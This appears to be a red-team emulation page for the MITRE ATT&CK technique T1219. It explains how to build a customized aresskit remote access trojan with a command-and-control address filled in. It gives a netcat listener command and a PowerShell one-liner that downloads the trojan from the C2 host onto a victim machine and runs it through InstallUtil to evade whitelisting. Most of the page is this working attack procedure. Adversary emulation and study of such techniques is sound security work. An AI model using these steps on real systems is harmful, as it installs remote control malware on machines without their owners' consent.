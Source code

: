 # Remote Access Tools

---
* **ID**: T1219
* **Source**: <https://attack.mitre.org/techniques/T1219/>
---

# Details

## Customized RAT
### Creating customized `aresskit`
* Download the source code from [Github](https://github.com/BlackVikingPro/aresskit);
* Replace with [Program.cs](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/Program.cs) and modify all `<ip_of_C2>` and `<port_of_C2>` accordingly;
* Replace with [FileHandler.cs](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/FileHandler.cs);
* Compile the program using `Debug` - `Any CPU`;
* Copy file `aresskit.exe` under folder `.\aresskit\bin\Debug` and upload it to your C2 host;

### Using customized `aresskit`
* Start a listener on C2 host:
```
nc -lvvp <port_of_C2>
```
* Download and execute `aresskit.exe` on the victim host by leveraging `InstallUtil`:
```
powershell Invoke-WebRequest -Uri "http://<ip_of_C2>/aresskit.exe" -OutFile %ALLUSERSPROFILE%\aresskit.exe & C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U %ALLUSERSPROFILE%\aresskit.exe
```

# References

* <https://github.com/BlackVikingPro/aresskit>
* <https://stackoverflow.com/questions/34400546/could-not-load-file-or-assembly-operation-is-not-supported-exception-from-hres>
